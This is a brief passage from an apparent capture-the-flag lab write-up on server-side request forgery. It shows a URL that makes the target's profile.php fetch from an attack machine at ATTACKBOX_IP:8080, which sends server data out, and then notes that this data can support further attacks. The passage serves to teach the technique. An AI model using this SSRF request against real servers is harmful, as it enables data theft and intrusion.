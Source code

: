 Open the data.html file, which contains all the essential information related to the server that can be used to launch further attacks.

![Screenshot](/assets/img/SSRF/13.png)

So After opening `http://hrms.thm/profile.php?url=http://ATTACKBOX_IP:8080` 


![Screenshot](/assets/img/SSRF/14.png)

the first ip is the target ipaddress while te second ip is our attack the box machine address which is the ipaddress which will recieve the data.

now let's open the data.html file what we got from the server.

![Screenshot](/assets/img/SSRF/15.png)

let's open it from the Graphical Desktop ..
